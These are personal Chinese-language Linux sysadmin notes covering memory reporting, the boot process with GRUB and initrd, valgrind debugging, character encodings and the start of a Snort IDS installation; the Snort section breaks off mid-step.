man free 知道利用/proc/meminfo，kernel会向/proc/meminfo写数据，然后free程序从中读取。

Mem: 
total = used + free  这个used包含当前正被使用的 + 现在还没使用的buffers/cached

-/+ buffers/cache: 
这行把buffers/cache视为一个整体，是kernel不采用page cache策略时将得出的数字:
341440表示系统当前正在使用的物理内存 = 991676 - (buffers+cached)
687004表示系统当前真正free的物理内存 = 36768  + (buffers+cached)

buffers+cached = 18080 + 632156 = 650236  一共1GB内存，有650多MB做了page cache。
buffers/cached来源于kernel中的page cache，不管内存多大，kernel经过一段时间都会逐渐用光所有内存，
此时第一行的used接近内存条容量，就是把从没用过的内存都转化成page cache以便随时使用。

page cache 包括普通的page，buffer page，swap cache。
buffers就对应buffer page，有个额外的buffer_head struct来管理，swap cache用来减少I/O。

普通文件要经过filesystem处理，对应cached
不经过filesystem处理的metadata(比如superblock)，对应buffers。
kernel把这两种情况统一处理，都是封装成bio，然后提交给device driver处理。
* linux启动缓慢

  linux 磁盘自检
  mount 
  tune2fs -l /dev/sda2
* linux启动过程

** 加载内核
操作系统接管硬件以后，首先读入 /boot 目录下的内核文件
** 启动初始化进程
内核文件加载以后，就开始运行第一个程序 /sbin/init，它的作用是初始化系统环境。
由于init是第一个运行的程序，它的进程编号（pid）就是1。其他所有进程都从它衍生，都是它的子进程。
** 确定运行级别
init进程首先读取文件 /etc/inittab，它是运行级别的设置文件。如果你打开它，可以看到第一行是这样的：
　id:2:initdefault:

initdefault的值是2，表明系统启动时的运行级别为2。如果需要指定其他级别，可以手动修改这个值。
那么，运行级别2有些什么程序呢，系统怎么知道每个级别应该加载哪些程序呢？......回答是每个运行级别在/etc目录下面，都有一个对应的子目录，指定要加载的程序。

　　/etc/rc0.d
　　/etc/rc1.d
　　/etc/rc2.d
　　/etc/rc3.d
　　/etc/rc4.d
　　/etc/rc5.d
　　/etc/rc6.d
　　
上面目录名中的"rc"，表示run command（运行程序），最后的d表示directory（目录）。下面让我们看看 /etc/rc2.d 目录中到底指定了哪些程序。

　　$ ls  /etc/rc2.d
　　
　　README
　　S01motd
　　S13rpcbind
　　S14nfs-common
　　S16binfmt-support
　　S16rsyslog
　　S16sudo
　　S17apache2
　　S18acpid
　　...
　　
可以看到，除了第一个文件README以外，其他文件名都是"字母S+两位数字+程序名"的形式。
字母S表示Start，也就是启动的意思（启动脚本的运行参数为start），如果这个位置是字母K，就代表Kill（关闭），即如果从其他运行级别切换过来，需要关闭的程序（启动脚本的运行参数为stop）。后面的两位数字表示处理顺序，数字越小越早处理，所以第一个启动的程序是motd，然后是rpcbing、nfs......数字相同时，则按照程序名的字母顺序启动，所以rsyslog会先于sudo启动。
这个目录里的所有文件（除了README），就是启动时要加载的程序。如果想增加或删除某些程序，不建议手动修改 /etc/rcN.d 目录，最好是用一些专门命令进行管理


** 加载开机启动程序
   守护进程

前面提到，七种预设的"运行级别"各自有一个目录，存放需要开机启动的程序。
不难想到，如果多个"运行级别"需要启动同一个程序，那么这个程序的启动脚本，就会在每一个目录里都有一个拷贝。
这样会造成管理上的困扰：如果要修改启动脚本，岂不是每个目录都要改一遍？
Linux的解决办法，就是七个 /etc/rcN.d 目录里列出的程序，都设为链接文件，指向另外一个目录 /etc/init.d ，真正的启动脚本都统一放在这个目录中。
init进程逐一加载开机启动程序，其实就是运行这个目录里的启动脚本。

下面就是链接文件真正的指向。

　　$ ls -l /etc/rc2.d
　　
　　README
　　S01motd -> ../init.d/motd
　　S13rpcbind -> ../init.d/rpcbind
　　S14nfs-common -> ../init.d/nfs-common
　　S16binfmt-support -> ../init.d/binfmt-support
　　S16rsyslog -> ../init.d/rsyslog
　　S16sudo -> ../init.d/sudo
　　S17apache2 -> ../init.d/apache2
　　S18acpid -> ../init.d/acpid
　　...
　　
这样做的另一个好处，就是如果你要手动关闭或重启某个进程，直接到目录 /etc/init.d 中寻找启动脚本即可。比如，我要重启Apache服务器，就运行下面的命令：

　　$ sudo /etc/init.d/apache2 restart
　　
/etc/init.d 这个目录名最后一个字母d，是directory的意思，表示这是一个目录，用来与程序 /etc/init 区分。

** 用户登录
开机启动程序加载完毕以后，就要让用户登录了。

一般来说，用户的登录方式有三种：
　　（1）命令行登录
　　（2）ssh登录
　　（3）图形界面登录
这三种情况，都有自己的方式对用户进行认证。
（1）命令行登录：init进程调用getty程序（意为get teletype），让用户输入用户名和密码。输入完成后，再调用login程序，核对密码（Debian还会再多运行一个身份核对程序/etc/pam.d/login）。如果密码正确，就从文件 /etc/passwd 读取该用户指定的shell，然后启动这个shell。
（2）ssh登录：这时系统调用sshd程序（Debian还会再运行/etc/pam.d/ssh ），取代getty和login，然后启动shell。
（3）图形界面登录：init进程调用显示管理器，Gnome图形界面对应的显示管理器为gdm（GNOME Display Manager），然后用户输入用户名和密码。如果密码正确，就读取/etc/gdm3/Xsession，启动用户的会话。
** 进入 login shell
所谓shell，简单说就是命令行界面，让用户可以直接与操作系统对话。用户登录时打开的shell，就叫做login shell。

Debian默认的shell是Bash，它会读入一系列的配置文件。上一步的三种情况，在这一步的处理，也存在差异。
（1）命令行登录：首先读入 /etc/profile，这是对所有用户都有效的配置；然后依次寻找下面三个文件，这是针对当前用户的配置。

　　~/.bash_profile
　　~/.bash_login
　　~/.profile
　　
需要注意的是，这三个文件只要有一个存在，就不再读入后面的文件了。比如，要是 ~/.bash_profile 存在，就不会再读入后面两个文件了。
（2）ssh登录：与第一种情况完全相同。
（3）图形界面登录：只加载 /etc/profile 和 ~/.profile。也就是说，~/.bash_profile 不管有没有，都不会运行。
** 打开 non-login shell
老实说，上一步完成以后，Linux的启动过程就算结束了，用户已经可以看到命令行提示符或者图形界面了。但是，为了内容的完整，必须再介绍一下这一步。
用户进入操作系统以后，常常会再手动开启一个shell。这个shell就叫做 non-login shell，意思是它不同于登录时出现的那个shell，不读取/etc/profile和.profile等配置文件。

non-login shell的重要性，不仅在于它是用户最常接触的那个shell，还在于它会读入用户自己的bash配置文件 ~/.bashrc。大多数时候，我们对于bash的定制，都是写在这个文件里面的。
你也许会问，要是不进入 non-login shell，岂不是.bashrc就不会运行了，因此bash 也就不能完成定制了？事实上，Debian已经考虑到这个问题了，请打开文件 ~/.profile，可以看到下面的代码：

　　if [ -n "$BASH_VERSION" ]; then
　　　　if [ -f "$HOME/.bashrc" ]; then
　　　　　　. "$HOME/.bashrc"
　　　　fi
　　fi
　　
上面代码先判断变量 $BASH_VERSION 是否有值，然后判断主目录下是否存在 .bashrc 文件，如果存在就运行该文件。第三行开头的那个点，是source命令的简写形式，表示运行某个文件，写成"source ~/.bashrc"也是可以的。
因此，只要运行～/.profile文件，～/.bashrc文件就会连带运行。但是上一节的第一种情况提到过，如果存在～/.bash_profile文件，那么有可能不会运行～/.profile文件。解决这个问题很简单，把下面代码写入.bash_profile就行了。

　　if [ -f ~/.profile ]; then
　　　　. ~/.profile
　　fi
　　
这样一来，不管是哪种情况，.bashrc都会执行，用户的设置可以放心地都写入这个文件了。
Bash的设置之所以如此繁琐，是由于历史原因造成的。早期的时候，计算机运行速度很慢，载入配置文件需要很长时间，Bash的作者只好把配置文件分成了几个部分，阶段性载入。系统的通用设置放在 /etc/profile，用户个人的、需要被所有子进程继承的设置放在.profile，不需要被继承的设置放在.bashrc。
顺便提一下，除了Linux以外， Mac OS X 使用的shell也是Bash。但是，它只加载.bash_profile，然后在.bash_profile里面调用.bashrc。而且，不管是ssh登录，还是在图形界面里启动shell窗口，都是如此。

* linux启动过程
POST加电自检
-->BIOS(Boot Sequence)
-->加载对应引导上的MBR(bootloader)
-->主引导设置加载其BootLoader
-->Kernel初始化
-->initrd
-—>/sbin/init进程加载/etc/inittab


kernel_init --> run_init_process("sbin/init")

init的实现：
It depends on Linux version. Traditionally, _sysvinit_ was used.
These days, many Linux distros use _upstart_.
Some others, like Fedora, are using _systemd_.

** 剖析详细启动过程
1. POST开机自检：电脑主机打开电源的时候，随后会听到滴的一声，系统启动开始了开机自检（POST-power on self
   test）自检开始），这个过程中主要是检测计算机硬件设备比如：CPU，内存，主板，显卡，CMOS等设备是否有故障存
   在，如果有硬件故障的话将按两种情况理：对于严重故障(致命性故障)则停机，此时由于各种初始化操作还没完成，
   不能给出任何提示或信号；对于非严重故障则给出提示或声音报警信号，等待用户处理），如果没有故障，POST完整自己
   的接力任务，将尾部工作交接给BIOS处理。 
2. BIOS：计算机加电自检完成后第一个读取的地方就是就是BIOS（Basic Input Output System，基础输入输出系统）
   ，BIOS里面记录了主机板的芯片集与相关设置，如CPU与接口设备的通信频率、启动设备的搜索顺序、硬盘的大小与
   类型、系统时间、外部总线、各种接口设备的I/O地址、已经与CPU通信的IRQ中断信息，所以，启动如果要顺利启动，
   首先要读取BIOS设置。 

3. 按照BIOS所设定的系统启动流程，如果检测通过，则根据引导次序(Boot Sequence)开始在第一台设备上支持启动
   程序，我们的启动设备主要包括硬盘、USB、SD等，我们一般用的是硬盘，然后进行读取第一个设备就是硬盘，第一个
   要读去的就是该硬盘的主引导记录MBR（Master Boot Record），然后系统可以根据启动区安装的
   引导加载程序（Boot Loader）开始执行核心识别的工作。【在此插一句：MBR程序只是找到只是硬盘分区内最前面
   的446个字节的Boot Loader】然后查找相关配置和定义。 

4. Boot Loader 加载Grub程序
   在这个过程中主要靠Grub的引导开始的，Grub分为连个阶段：
   stage1：主要是Boot loader
   stage 1.5:过渡
   stage2:主要是/boot/grub 

#+begin_example
linux-19:/boot/grub # cat menu.lst
default 0
timeout 8

gfxmenu (hd0,1)/boot/message

title SUSE Linux Enterprise Server 11 SP2 - 3.0.80-0.7
    root (hd0,1)
    kernel /boot/vmlinuz-3.0.80-0.7-default root=/dev/disk/by-id/scsi-36001e4f03068ec000fb1f5b4052ae63b-part2 resume=/dev/disk/by-id/scsi-36001e4f03068ec000fb1f5b4052ae63b-part1 splash=silent crashkernel=256M-:128M showopts vga=0x31a
    initrd /boot/initrd-3.0.80-0.7-default

title Failsafe -- SUSE Linux Enterprise Server 11 SP2 - 3.0.80-0.7
    root (hd0,1)
    kernel /boot/vmlinuz-3.0.80-0.7-default root=/dev/disk/by-id/scsi-36001e4f03068ec000fb1f5b4052ae63b-part2 showopts ide=nodma apm=off noresume edd=off powersaved=off nohz=off highres=off processor.max_cstate=1 nomodeset x11failsafe vga=0x31a
    initrd /boot/initrd-3.0.80-0.7-default
#+end_example
     
5. Kernel
   根据Grub内的定义，grub读取完毕后就把下面的工作交个内核了。kernel主要是完成系统硬件探测及硬件驱动的初始
   化，并且以读写的方式挂载根文件系统（根切换），那么这里就出现了一个“先有鸡还是先有蛋的文件了”，具体是什么
   那？
   要想访问真正的根文件系统（rootfs）的话，就必须加载根文件系统中的设备，这时根文件系统又没有挂载，
   要挂载根文件系统又得加载根文件系统中的驱动程序，哪怎么办呢？为了解决这个问题，这是就用到了initrd文件了。  
   在来说下kernel初始化所要工作的内容做下简单总结：  
   探测硬件->加载驱动（initrd)->挂载根文件系统->rootfs(/sbin/init) 

#+begin_example
inux-19:~/test # mkdir intrd
inux-19:~/test # mv /boot/initrd-3.0.80-0.7-default initrd/
linux-19:~/test # cd initrd/ 
linux-19:~/test/initrd # ls
initrd-3.0.80-0.7-default
linux-19:~/test/initrd # zcat initrd-3.0.80-0.7-default | cpio -id                       
33097 blocks
linux-19:~/test/initrd # ls
bin  boot  bootsplash  config  dev  etc  init  initrd-3.0.80-0.7-default  lib  lib64  mkinitrd.config  proc  root  run_all.sh  sbin  sys  tmp  usr  var
linux-19:~/test/initrd # 
#+end_example
发现解压的结果很想/目录
可以vi init
看一下init脚本都做了哪些操作。
看到init进程的主要工作：
挂载 ：将initrd中的/proc, /sys  /dev 挂载到当前的主分区中的相应目录  
创建目录：/dev/mapper  
通过mknod完成block or character special files的创建  
相关模块的挂载  
创建root设备  
挂载 /sysroot  
最后完成根切换 


6. 到此止内核空间的相关工作已经完成，内核空间的任务开始向用户空间转移，内核空间通过一个间接的initrd(微型
   linux)向用户空间的/sbin/init过度，所以grub开始引导内核转向initrd。
   initrd：一个虚拟的文件系统，里面有lib、bin、sbin、usr、proc、sys、var、dev、boot等一些目录，
   其实你会发现里面的目录有点像真的/对吧，所以我们称之为虚拟的根文件系统，作用就是将kernel和真的根文件系统
   建立关联关系，让kernel去initrd中加载根文件系统所需要的驱动程序，并以读写的方式挂载根文件系统，并让执行
   用户当中第一个进程init。 


7. init执行完毕以后会启动系统内的/etc/inittab文件，来完成系统系统的初始化工作。
   下面我们来介绍一下inittab这个配置文件内的详细内容

各个级别的定义：
默认运行级别 
0：halt                      //关机  
1: single user mode    //单用户维护模式)  
2：multi user mode, without NFS  //不支持NFS功能  
3: multi user mode, text mode     //字符界面  
4：reserved   //系统保留  
5: multi user mode, graphic mode   //图形化界面  
6: reboot   //重启 

/etc/inittab格式及语法(:) 
[选项]:[runlevel]:[行为]:[命令]
行为：  
                   initdefault：代表默认运行级别  
                   sysinit：代表系统初始化操作选项  
                   ctrlaltdel：代表重启的相关设置  
                   wait：代表上一个命令执行结束后方可执行下面的操作  
                   respawn：代表后面字段可以无限制再生(reboot)
命令选项  
               一些命令，不过通常都是脚本 

* linux启动过程中读取/etc/fstab
  读取/etc/fstab，mount文件系统的操作
  是由mount命令自己完成的。
  mount -a 选项
* 获取当前程序的绝对路径
  读取/proc/self/exe符号链接
  char buf[PATH_MAX];
  int n = readlink("/proc/self/exe", buf, PATH_MAX);
  if( n > 0 && n < PATH_MAX) {
  buf[n-1] = '\0';
* linux log
  /var/log/boot.msg
  /var/log/boot.omsg
  All the boot information and output of a Suse 9 system can be retrieved in /var/log/boot.msg. 
  Here you find the kernel messages, stored by the ksyslog daemon, the init output and the messages of the various services started at the chosen runlevel.
  This file is rewritten at every reboot, a copy of the output of the previous boot is kept in /var/log/boot.omsg
* configure
  configure --with-* 传参数
  configure内容:
  perl subst xxx.cfg
  perl subst Makefile
* 网桥转发的问题
  tony 在linux A 上建立的网桥，
  然后建立路由，再另一个机器以A为网关，测试路由。
  结果总是不通，于是他就在A上运行tcpdump，
  发现运行tcpdump时，路由居然就通了。
  后来我提意，将网卡设置成混杂模式，然后在测试，路由就是通的。
  最后发现网桥的接口就是需要在混杂模式。可能之前有人改过配置。
* valgrind
** 内存泄漏检查
#+begin_src c
#include <stdlib.h>

int main() 
{
    int *p = (int *) malloc(10*sizeof(int));
    p[10] = 1;
    return 0;
}
#+end_src
运行valgrind ./test
结果就发现了：p[10] = 1 处越界访问。



基于glib的程序，由于内存分配与回收机制的问题，valgrind会做出错误的统计。Glib提供了针对valgrind友好的内存分配手段，使用方式如下：

G_SLICE=always-malloc G_DEBUG=gc-friendly valgrind --tool=memcheck --leak-check=full --leak-resolution=high --num-callers=20--suppressions=<filename> --gen-suppressions=all --log-file=vgdump gdbus_test

参数说明：

G_SLICE=always-malloc与G_DEBUG=gc-friendly，通知glib使用valgrind友好的内存分配手段

--tool=memcheck --leak-check=full --leak-resolution=high --num-callers=20，valgrind参数

--suppressions，根据filename的内容，压制不必要的内存泄露提示，如，g_type_init里会分配一些运行期内不会释放的空间，并不能认为是内存泄露，压制的语法可以参考附件。

--log-file，可以将log打入文件中，用于后续分析

gdbus_test，要测试的程序。

** memory profile
   --tool=massif

** 使用valgrind调试fastcgi程序

   使用spawn-fcgi调起用valgrind起的fastcgi程序即可.
   spawn-fcgi -n -a 127.0.0.1 -p 9000 -- /usr/bin/valgrind --leak-check=full --log-file=/tmp/valgrind.log /path/to/prog
   调试的话,直接gdb attach上进程ID即可.

** 检测锁冲突
详细见http://valgrind.org/docs/manual/drd-manual.html

#+begin_src c
#include <pthread.h>

pthread_mutex_t mutex = PTHREAD_MUTEX_INITIALIZER;
void* foo(void *arg)
{
    int count = 0;
    for(;;count++) {
        pthread_mutex_lock(&mutex);
        if(++count%100 == 0) {
            int i;
            int t = 0;
            for(i = 0; i < 1000; i++) {
                t += i;
            }
        }
        pthread_mutex_unlock(&mutex);
    }
    return NULL;
}

int main()
{
    pthread_t pid;
    int i;
    for(i = 0; i < 100; i++) {
        pthread_create(&pid, NULL, foo, NULL);
    }
    while(1) {
        sleep(1);
    }
}
#+end_src

#+begin_example
[ork@localhost code]$ valgrind --tool=drd --exclusive-threshold=10 ./t -i 1000
==9527== drd, a thread error detector
==9527== Copyright (C) 2006-2010, and GNU GPL'd, by Bart Van Assche.
==9527== Using Valgrind-3.6.1 and LibVEX; rerun with -h for copyright info
==9527== Command: ./t -i 1000
==9527== 
==9527== Thread 3:
==9527== Acquired at:
==9527==    at 0x400AC73: pthread_mutex_lock (drd_pthread_intercepts.c:587)
==9527==    by 0x80484FD: foo (in /home/ork/code/t)
==9527==    by 0x40095BC: vgDrd_thread_wrapper (drd_pthread_intercepts.c:281)
==9527==    by 0x43004CD2: start_thread (in /lib/libpthread-2.14.90.so)
==9527==    by 0x42F41D7D: clone (in /lib/libc-2.14.90.so)
==9527== Lock on mutex 0x80498b4 was held during 14 ms (threshold: 10 ms).
==9527==    at 0x400B508: pthread_mutex_unlock (drd_pthread_intercepts.c:640)
==9527==    by 0x8048557: foo (in /home/ork/code/t)
==9527==    by 0x40095BC: vgDrd_thread_wrapper (drd_pthread_intercepts.c:281)
==9527==    by 0x43004CD2: start_thread (in /lib/libpthread-2.14.90.so)
==9527==    by 0x42F41D7D: clone (in /lib/libc-2.14.90.so)
==9527== mutex 0x80498b4 was first observed at:
==9527==    at 0x400AC05: pthread_mutex_lock (drd_pthread_intercepts.c:584)
==9527==    by 0x80484FD: foo (in /home/ork/code/t)
==9527==    by 0x40095BC: vgDrd_thread_wrapper (drd_pthread_intercepts.c:281)
==9527==    by 0x43004CD2: start_thread (in /lib/libpthread-2.14.90.so)
==9527==    by 0x42F41D7D: clone (in /lib/libc-2.14.90.so)
==9527== 
#+end_example

* 按inode号删除文件
Linux 下有些文件直接使用 rm 无法删除, 比如该文件的文件名含有终端不能正确显示的字符.

[root@dev]# ls -i
26247183 wite.html
26247184 abc.html
26247189 test?.txt

可以通过文件 inode 删除
# find . -inum 26247189  -delete
* gcc -finstrument-functions特性的应用
* 字符编码总结
1. ASCII码

我们知道，在计算机内部，所有的信息最终都表示为一个二进制的字符串。每一个二进制位（bit）有0和1两种状态，因此八个二进制位就可以组合出256种状态，这被称为一个字节（byte）。也就是说，一个字节一共可以用来表示256种不同的状态，每一个状态对应一个符号，就是256个符号，从0000000到11111111。

上个世纪60年代，美国制定了一套字符编码，对英语字符与二进制位之间的关系，做了统一规定。这被称为ASCII码，一直沿用至今。

ASCII码一共规定了128个字符的编码，比如空格"SPACE"是32（二进制00100000），大写的字母A是65（二进制01000001）。这128个符号（包括32个不能打印出来的控制符号），只占用了一个字节的后面7位，最前面的1位统一规定为0。

2、非ASCII编码

英语用128个符号编码就够了，但是用来表示其他语言，128个符号是不够的。比如，在法语中，字母上方有注音符号，它就无法用ASCII码表示。于是，一些欧洲国家就决定，利用字节中闲置的最高位编入新的符号。比如，法语中的é的编码为130（二进制10000010）。这样一来，这些欧洲国家使用的编码体系，可以表示最多256个符号。

但是，这里又出现了新的问题。不同的国家有不同的字母，因此，哪怕它们都使用256个符号的编码方式，代表的字母却不一样。比如，130在法语编码中代表了é，在希伯来语编码中却代表了字母Gimel (ג)，在俄语编码中又会代表另一个符号。但是不管怎样，所有这些编码方式中，0--127表示的符号是一样的，不一样的只是128--255的这一段。

至于亚洲国家的文字，使用的符号就更多了，汉字就多达10万左右。一个字节只能表示256种符号，肯定是不够的，就必须使用多个字节表达一个符号。比如，简体中文常见的编码方式是GB2312，使用两个字节表示一个汉字，所以理论上最多可以表示256x256=65536个符号。

中文编码的问题需要专文讨论，这篇笔记不涉及。这里只指出，虽然都是用多个字节表示一个符号，但是GB类的汉字编码与后文的Unicode和UTF-8是毫无关系的。

3.Unicode

正如上一节所说，世界上存在着多种编码方式，同一个二进制数字可以被解释成不同的符号。因此，要想打开一个文本文件，就必须知道它的编码方式，否则用错误的编码方式解读，就会出现乱码。为什么电子邮件常常出现乱码？就是因为发信人和收信人使用的编码方式不一样。

可以想象，如果有一种编码，将世界上所有的符号都纳入其中。每一个符号都给予一个独一无二的编码，那么乱码问题就会消失。这就是Unicode，就像它的名字都表示的，这是一种所有符号的编码。

Unicode当然是一个很大的集合，现在的规模可以容纳100多万个符号。每个符号的编码都不一样，比如，U+0639表示阿拉伯字母Ain，U+0041表示英语的大写字母A，U+4E25表示汉字"严"。具体的符号对应表，可以查询unicode.org，或者专门的汉字对应表。

4. Unicode的问题

需要注意的是，Unicode只是一个符号集，它只规定了符号的二进制代码，却没有规定这个二进制代码应该如何存储。

比如，汉字"严"的unicode是十六进制数4E25，转换成二进制数足足有15位（100111000100101），也就是说这个符号的表示至少需要2个字节。表示其他更大的符号，可能需要3个字节或者4个字节，甚至更多。

这里就有两个严重的问题，第一个问题是，如何才能区别Unicode和ASCII？计算机怎么知道三个字节表示一个符号，而不是分别表示三个符号呢？第二个问题是，我们已经知道，英文字母只用一个字节表示就够了，如果Unicode统一规定，每个符号用三个或四个字节表示，那么每个英文字母前都必然有二到三个字节是0，这对于存储来说是极大的浪费，文本文件的大小会因此大出二三倍，这是无法接受的。

它们造成的结果是：1）出现了Unicode的多种存储方式，也就是说有许多种不同的二进制格式，可以用来表示Unicode。2）Unicode在很长一段时间内无法推广，直到互联网的出现。

5.UTF-8

互联网的普及，强烈要求出现一种统一的编码方式。UTF-8就是在互联网上使用最广的一种Unicode的实现方式。其他实现方式还包括UTF-16（字符用两个字节或四个字节表示）和UTF-32（字符用四个字节表示），不过在互联网上基本不用。重复一遍，这里的关系是，UTF-8是Unicode的实现方式之一。

UTF-8最大的一个特点，就是它是一种变长的编码方式。它可以使用1~4个字节表示一个符号，根据不同的符号而变化字节长度。

UTF-8的编码规则很简单，只有二条：

1）对于单字节的符号，字节的第一位设为0，后面7位为这个符号的unicode码。因此对于英语字母，UTF-8编码和ASCII码是相同的。

2）对于n字节的符号（n>1），第一个字节的前n位都设为1，第n+1位设为0，后面字节的前两位一律设为10。剩下的没有提及的二进制位，全部为这个符号的unicode码。

下表总结了编码规则，字母x表示可用编码的位。

    Unicode符号范围 | UTF-8编码方式
    (十六进制) | （二进制）
    --------------------+---------------------------------------------
    0000 0000-0000 007F | 0xxxxxxx
    0000 0080-0000 07FF | 110xxxxx 10xxxxxx
    0000 0800-0000 FFFF | 1110xxxx 10xxxxxx 10xxxxxx
    0001 0000-0010 FFFF | 11110xxx 10xxxxxx 10xxxxxx 10xxxxxx

跟据上表，解读UTF-8编码非常简单。如果一个字节的第一位是0，则这个字节单独就是一个字符；如果第一位是1，则连续有多少个1，就表示当前字符占用多少个字节。

下面，还是以汉字"严"为例，演示如何实现UTF-8编码。

已知"严"的unicode是4E25（100111000100101），根据上表，可以发现4E25处在第三行的范围内（0000 0800-0000 FFFF），因此"严"的UTF-8编码需要三个字节，即格式是"1110xxxx 10xxxxxx 10xxxxxx"。然后，从"严"的最后一个二进制位开始，依次从后向前填入格式中的x，多出的位补0。这样就得到了，"严"的UTF-8编码是"11100100 10111000 10100101"，转换成十六进制就是E4B8A5。

6. Unicode与UTF-8之间的转换

通过上一节的例子，可以看到"严"的Unicode码是4E25，UTF-8编码是E4B8A5，两者是不一样的。它们之间的转换可以通过程序实现。

在Windows平台下，有一个最简单的转化方法，就是使用内置的记事本小程序Notepad.exe。打开文件后，点击"文件"菜单中的"另存为"命令，会跳出一个对话框，在最底部有一个"编码"的下拉条。

bg2007102801.jpg

里面有四个选项：ANSI，Unicode，Unicode big endian 和 UTF-8。

1）ANSI是默认的编码方式。对于英文文件是ASCII编码，对于简体中文文件是GB2312编码（只针对Windows简体中文版，如果是繁体中文版会采用Big5码）。

2）Unicode编码指的是UCS-2编码方式，即直接用两个字节存入字符的Unicode码。这个选项用的little endian格式。

3）Unicode big endian编码与上一个选项相对应。我在下一节会解释little endian和big endian的涵义。

4）UTF-8编码，也就是上一节谈到的编码方法。

选择完"编码方式"后，点击"保存"按钮，文件的编码方式就立刻转换好了。

7. Little endian和Big endian

上一节已经提到，Unicode码可以采用UCS-2格式直接存储。以汉字"严"为例，Unicode码是4E25，需要用两个字节存储，一个字节是4E，另一个字节是25。存储的时候，4E在前，25在后，就是Big endian方式；25在前，4E在后，就是Little endian方式。

这两个古怪的名称来自英国作家斯威夫特的《格列佛游记》。在该书中，小人国里爆发了内战，战争起因是人们争论，吃鸡蛋时究竟是从大头(Big-Endian)敲开还是从小头(Little-Endian)敲开。为了这件事情，前后爆发了六次战争，一个皇帝送了命，另一个皇帝丢了王位。

因此，第一个字节在前，就是"大头方式"（Big endian），第二个字节在前就是"小头方式"（Little endian）。

那么很自然的，就会出现一个问题：计算机怎么知道某一个文件到底采用哪一种方式编码？

Unicode规范中定义，每一个文件的最前面分别加入一个表示编码顺序的字符，这个字符的名字叫做"零宽度非换行空格"（ZERO WIDTH NO-BREAK SPACE），用FEFF表示。这正好是两个字节，而且FF比FE大1。

如果一个文本文件的头两个字节是FE FF，就表示该文件采用大头方式；如果头两个字节是FF FE，就表示该文件采用小头方式。

8. 实例

下面，举一个实例。

打开"记事本"程序Notepad.exe，新建一个文本文件，内容就是一个"严"字，依次采用ANSI，Unicode，Unicode big endian 和 UTF-8编码方式保存。

然后，用文本编辑软件UltraEdit中的"十六进制功能"，观察该文件的内部编码方式。

1）ANSI：文件的编码就是两个字节"D1 CF"，这正是"严"的GB2312编码，这也暗示GB2312是采用大头方式存储的。

2）Unicode：编码是四个字节"FF FE 25 4E"，其中"FF FE"表明是小头方式存储，真正的编码是4E25。

3）Unicode big endian：编码是四个字节"FE FF 4E 25"，其中"FE FF"表明是大头方式存储。

4）UTF-8：编码是六个字节"EF BB BF E4 B8 A5"，前三个字节"EF BB BF"表示这是UTF-8编码，后三个"E4B8A5"就是"严"的具体编码，它的存储顺序与编码顺序是一致的。
* 安装过程ldconfig
ld.so.conf中
动态库的查找顺序
按照目录顺序查找

我安装daq时，./configure
报错：
  ERROR!  Libpcap library version >= 1.0.0  not found.
    Get it from http://www.tcpdump.org

于是下载一个libpcap的源码包，编译./configure --prefix=/usr/lib/
结果还是不对。

ldconfig -p |grep libpcap
发现实际其作用的是 libpcap.0.9.8

发现/etc/ld.so.conf部分内容：
/usr/lib64
/usr/lib

我将/usr/lib64下的旧版本的
* snort 安装过程
** install snort
#+begin_example
# cd /tmp ; wget http://www.snort.org/downloads/1850 -O daq-1.1.1.tar.gz # tar -xzvf daq-1.1.1.tar.gz 
# cd daq-1.1.1/ 
# ./configure 
# make && make install 
# ldconfig -v 
#+end_example

- Creating snort user and tree directories:

12345678 # groupadd snort # useradd -g snort snort # mkdir /usr/local/snort # mkdir /etc/snort # mkdir /var/log/snort # mkdir /var/run/snort # chown snort:snort /var/log/snort # chown snort:snort /var/run/snort 

Installing Snort and configuring the ruleset

- Downloading and installing snort:

1234567891011 # cd /tmp ; wget http://www.snort.org/downloads/1862 -O snort-2.9.3.1.tar.gz # tar -xzvf snort-2.9.3.1.tar.gz # cd snort-2.9.3.1/ # ./configure --prefix /usr/local/snort --enable-sourcefire --enable-ipv6 # make && make install # ln -s /usr/local/snort/bin/snort /usr/bin/snort # cp /tmp/snort-2.9.3.1/etc/snort.conf /etc/snort/ # cp /tmp/snort-2.9.3.1/etc/unicode.map /etc/snort/ # cp /tmp/snort-2.9.3.1/etc/classification.config /etc/snort/ # cp -r /usr/local/snort/lib/snort_dynamicpreprocessor/ /usr/local/lib/ # cp -r /usr/local/snort/lib/snort_dynamicengine /usr/local/lib/ 

- Downloading open source ruleset from emerging:

#+begin_example
# cd /etc/snort ; wget http://rules.emergingthreats.net/open/snort-2.9.0/emerging.rules.tar.gz && wget http://rules.emergingthreats.net/open/snort-2.9.0/reference.config 
# tar -xzvf emerging.rules.tar.gz 
# touch /etc/snort/rules/white_list.rules /etc/snort/rules/black_list.rules 
# chown -R snort:snort /etc/snort/ 
#+end_example

- Edit snort configuration:

#+begin_example
# vi /etc/snort/snort.conf 

ipvar HOME_NET 192.168.1.0/24
var RULE_PATH /etc/snort/rules
var SO_RULE_PATH /etc/snort/so_rules
var PREPROC_RULE_PATH /etc/snort/preproc_rules
var WHITE_LIST_PATH /etc/snort/rules
var BLACK_LIST_PATH /etc/snort/rules
include $RULE_PATH/emerging.conf 
#+end_example

Configuring the init script for Snort

- Create sysconfig snort configuration:

#+begin_example
# vi /etc/sysconfig/snort 

#### General Configuration
INTERFACE=eth0
CONF=/etc/snort/snort.conf
USER=snort
GROUP=snort
PASS_FIRST=0
#### Logging & Alerting
LOGDIR=/var/log/snort
ALERTMODE=fast 
DUMP_APP=1 
BINARY_LOG=1 
NO_PACKET_LOG=0 
PRINT_INTERFACE=0 
#+end_example

- Adding the init script:
#+begin_example
# vi /etc/init.d/snortd 
#+end_example

- Start snort at system boot time:

#+begin_example
# chmod +x /etc/init.d/snortd 
# chkconfig --levels 235 snortd on 
#+end_example
- Starting snort:

#+begin_example
# /etc/init.d/snortd start 
#+end_example
Testing the basic functionality of port scanning detection with nmap

#+begin_example
# tail -f /var/log/snort/alert 
#+end_example
** install base and barnyard2
Install BASE dependencies
#+begin_example
# yum install -y mysql-server mysql-devel php-mysql php-adodb php-pear php-gd httpd 
# pear channel-update pear.php.net 
# pear install Numbers_Roman 
# pear install channel://pear.php.net/Image_Canvas-0.3.5 # 
# pear install channel://pear.php.net/Image_Graph-0.8.0 
#+end_example

Preparing MySQL environment
- Initializing mysql and configuring to start the daemon at boot time:
#+begin_example
# service mysql start 
# chkconfig --levels 235 mysql on 
#+end_example

- Preparing the new database for snort:
#+begin_example
# mysql -u root -p 

mysql> create database snort;
mysql> grant select,insert,update,delete,create on snort.* to snort@localhost; 
mysql> set password for snort@localhost=PASSWORD('snortpassword'); 
#+end_example

Setup snort to log out in unified2 format
#+begin_example
